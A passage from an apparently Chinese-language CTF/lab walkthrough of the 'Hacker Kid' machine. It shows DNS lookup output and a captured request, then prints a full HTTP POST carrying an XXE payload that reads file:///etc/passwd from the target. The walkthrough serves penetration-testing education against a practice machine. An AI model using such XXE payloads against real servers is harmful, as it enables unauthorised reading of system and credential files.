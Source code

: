 ```
;; Query time: 0 msec
;; SERVER: 192.168.32.230#53(192.168.32.230)
;; WHEN: Sun Sep 11 09:10:54 EDT 2022
;; MSG SIZE  rcvd: 125

                             
```

访问：`http://hackerkid.blackhat.local/`

![image-20220911212336612](../../.gitbook/assets/image-20220911212336612.png)

抓包分析，body是xml格式，尝试使用XXE攻击

![image-20220911212600928](../../.gitbook/assets/image-20220911212600928.png)

```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 178
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>
  ]><root><name></name><tel></tel><email>&xxe;</email><password></password></root>
```